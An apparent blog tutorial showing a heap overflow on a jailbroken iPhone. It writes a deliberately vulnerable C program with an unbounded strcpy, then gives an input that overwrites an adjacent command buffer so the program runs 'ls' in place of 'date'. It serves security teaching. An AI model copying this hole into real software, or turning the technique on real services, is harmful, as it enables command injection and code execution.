




# heap overflow ios (ARM x64)

Let's Hack the Heap. Today we're diving into a simple but effective heap overflow vulnerability on `iOS ARM64`. This example runs on a jailbroken iPhone and shows how improper use of heap memory (via `strcpy`) can lead to memory corruption and even command injection. Let's get started!      

### requirements

To reproduce this PoC, we'll need:
- A jailbroken iPhone (or simulated)    
- Installed tools: `OpenSSH` - for remote access, `lldb` - for debugging (if you want deeper introspection)     
- `macOS + Xcode` (for compiling `iOS` binaries)      

### write vulnerable heap code

First of all we need vulnerable program. Here's our vulnerable program: `heapify.c`:     

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <spawn.h>
#include <sys/wait.h>

extern char **environ;

void run_cmd(char *cmd) {
  pid_t pid;
  char *argv[] = {"sh", "-c", cmd, NULL};
  int status;

  printf("Run command: %s\n", cmd);
  status = posix_spawn(&pid, "/bin/sh", NULL, NULL, argv, environ);

  if (status == 0) {
    printf("Child pid: %i\n", pid);
    if (waitpid(pid, &status, 0) != -1) {
      printf("Child exited with status %i\n", status);
    } else {
      perror("waitpid");
    }
  } else {
    printf("posix_spawn: %s\n", strerror(status));
  }
}

int main(int argc, char *argv[]) {
  if (argc <= 1) {
    printf("\x1B[31mUsage: ./heapify <username>\x1B[0m\n");
    exit(0);
  }

  char *name = malloc(64);
  char *command = malloc(64);

  strcpy(command, "date");

  // here vulnerable: no bounds checking
  strcpy(name, argv[1]);

  printf("\x1B[36mUser: %s is executing command \"%s\"\n", name, command);
  printf("\x1B[0m");

  run_cmd(command);
  return 0;
}
```

What's going on here?
- we're allocating two heap buffers: `name` and `command`, both `64` bytes.     
- then we copy user input (`argv[1]`) into `name` using `strcpy()` - with no size check:    

```cpp
strcpy(name, argv[1]);
```

- this means if user input is longer than `64` bytes, it will overflow into adjacent heap memory.     
- and guess what's next to `name`? Our `command` buffer.     
- if we can overwrite command, we can change what shell command gets executed. Boom      

### compilation for iOS

Since `system()` is restricted in newer `iOS` SDKs, we use `posix_spawn()` to execute shell commands. Let's now compile the vulnerable binary from macOS:    

```bash
clang -g heapify.c -o heapify \
-isysroot /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS14.4.sdk \
-arch arm64 -mios-version-min=9.0 \
-fno-stack-protector
```

Explanation:    
`-g`- includes debug symbols for reverse engineering    
`-isysroot` - points to the `iOS` SDK      
`-arch arm64` - targets `arm64` (`iPhone` CPU)     
`-mios-version-min=9.0` - compatible with older `iOS` versions     
`-fno-stack-protector` - disables stack canaries (not needed here, but often used for `pwn` challenges)     

### transfer and prepare the binary

Now copy the binary to our device and sign it:     

```bash
scp heapify root@<iphone-ip>:/var/root/
ssh root@<iphone-ip>
chmod +x heapify
ldid -S heapify
```

once signed, you can run it normally from the terminal (e.g., via `SSH`):      

```bash
iPhone:/test root#
iPhone:/test root# chmod +x heapify
iPhone:/test root# ldid -S heapify
iPhone:/test root# ./heapify cocomelonc
user cocomelonc is executing command "date"
Run command: date
Child pid: 1955
Fri Mar 14 10:15:27 +05 2025
Child exited with status 0 
iPhone:/test root#
```

     

Everything looks good. The command `date` is executed as expected. We might want to take the binary apart to see that the `malloc` method is actually at work here and giving out `x40` (`64`) bytes of memory. `strcpy` function is clearly at risk:     

    

[GDB to LLDB command map](https://lldb.llvm.org/use/map.html)     

But now let's dig into the vulnerability.    

### heap overflow analysis

As as wrote before behind the scenes, this line is the culprit:     

```cpp
strcpy(name, argv[1]);
```

it copies unbounded user input into a `64-byte` buffer on the heap.     

Let's try fuzzing it:    

```bash
./heapify AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJKKKKKKKKKKLLLLLLLLLL
```

this input is way over `64` bytes, and it clearly overflows into adjacent memory. The program still runs, but the value of `command` may now be changed due to heap memory corruption.     

     

### overwrite the command

The input can go up to about the middle of the letter `G` as you can see.Let's use our overflow to change the default command from `date` to `ls`:    

```bash
./heapify AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGls
```

Result:    

    

Boom! Our command injection successful - we hijacked the `command` buffer using a heap overflow.     

Heap overflows are just as powerful as stack overflows - especially when you have adjacent data like command buffers, pointers, or vtables.     
In a real-world scenario, this kind of bug can lead to command injection, privilege escalation, or even arbitrary code execution, especially in insecure daemons or background services.     

### references

[GDB to LLDB command map](https://lldb.llvm.org/use/map.html)    